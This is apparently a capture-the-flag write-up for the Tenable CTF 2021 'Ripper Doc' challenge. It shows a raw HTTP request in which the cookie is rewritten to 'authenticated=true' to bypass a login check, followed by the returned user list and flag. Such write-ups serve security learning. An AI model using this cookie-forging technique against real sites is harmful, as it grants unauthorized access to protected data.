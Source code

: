 # Ripper Doc

Find the flag in the ripper doc list.
http://167.71.246.232/
---
> Cookie: authenticated=true
cookieをTrueに書き換える

~~~
GET /certified_rippers.php HTTP/1.1
Host: 167.71.246.232
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://167.71.246.232/
Cookie: authenticated=true
Upgrade-Insecure-Requests: 1
Certified Rippers
~~~
~~~
Rippers:
     Don Sue Mei: dds123@example.com
     Lok Mah NoHans: llhsa@example.com
     Mr Flagerific: flag{messing_with_cookies}
~~~
![aa](https://github.com/xn16h7/CTF/blob/master/Tenable%20CTF%202021/img/%E2%91%A4.png)

## flag{messing_with_cookies}
